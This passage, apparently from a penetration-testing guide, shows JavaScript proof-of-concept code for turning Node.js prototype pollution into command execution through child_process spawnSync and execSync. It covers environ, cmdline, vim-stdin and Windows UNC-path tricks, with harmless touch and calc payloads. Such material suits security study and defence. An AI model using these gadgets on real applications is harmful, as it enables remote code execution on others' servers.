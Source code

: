```
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = execSync("something")
```
```



****`spawnSync` exploitation****


```javascript
// environ trick - working with small variation (shell and argv0)
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of node
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/spawnSync-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// cmdline trick - working with small variation (shell)
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/spawnSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// stdin trick - working
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require("child_process")
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ":!{touch /tmp/spawnSync-stdin}\n"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// Windows
// NOT working after require(fix) without options
const { spawnSync } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"C:\\"}); //To work after kEmptyObject (fix)
```
```

## Forcing Spawn

In the previous examples you saw how to trigger the gadget a functionality that **calls `spawn`** needs to be **present** (all methods of **`child_process`** used to execute something calls it). In the previous example that was **part of the the code**, but what if the code **isn't** calling it.

### Controlling a require file path
```